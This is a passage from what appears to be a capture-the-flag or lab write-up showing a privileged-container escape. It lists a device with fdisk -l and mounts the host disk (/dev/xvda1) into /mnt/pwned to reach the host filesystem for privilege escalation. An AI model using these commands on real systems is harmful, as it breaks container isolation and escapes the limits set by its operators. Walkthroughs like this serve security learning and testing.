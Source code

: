 {{< alert >}}
**Warning!** While you can just run the command to mount the file system and perform privilege escalation, it's always good to gain an understanding.
{{< /alert >}}

The blog continues and states the commands to escape the container are:

```bash
mount /dev/[DEVICE-FILE] /mnt
ls /mnt
```

To find the device file, many commands can be ran, including `fdisk -l`:

```bash
fdisk -l
```

![](Data-Vda1.png)

Now, this device can be mounted:

```bash
mkdir /mnt/pwned
mount /dev/xvda1 /mnt/pwned
```

![](Data-Pwned.png)